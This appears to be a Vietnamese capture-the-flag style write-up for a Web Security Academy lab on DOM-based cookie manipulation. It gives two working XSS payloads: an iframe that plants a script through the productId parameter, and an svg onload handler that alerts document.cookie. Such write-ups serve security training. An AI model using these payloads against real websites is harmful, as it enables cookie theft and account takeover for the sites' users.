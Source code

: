 **Yêu cầu: Chèn một cookie sẽ gây ra XSS và gọi hàm print()/alert()**
<br>Khi ta xem một bài viết bất kì sẽ tạo ra thẻ a có tên ```Last Viewed Product``` và setCookie là url bài viết ta vừa xem rồi lưu vào thẻ này.
![image](https://user-images.githubusercontent.com/62832067/150773542-a3db6fcf-4411-4dfd-837e-0a466fc48f95.png)
<br> **Cách 1:** Ta chèn trực tiếp script vào khi ta click vào thẻ ```Last Viewed Product```
```  js
<iframe src="https://ac521fc61f91bc2bc0803137007500d1.web-security-academy.net/product?productId=1&'>
<script>alert(document.cookie)</script>" 
onload="if(!window.x)this.src='https://ac521fc61f91bc2bc0803137007500d1.web-security-academy.net/product?productId=1&';window.x=1;">
```
<br> **Cách 2:** Ta cần tạo 1 url chứa payload, khi click vào, url này có thể được tạo bằng cách thêm 1 chuỗi vào phía sau của 1 product url bất kỳ
``` js
  <a href='ac521fc61f91bc2bc0803137007500d1.web-security-academy.net/product?productId=3&abc='>Hacked</a>
   <svg onload='alert(document.cookie)'> </svg>
   <a onload=''>Last viewed product</a>
   <p>|</p>
```
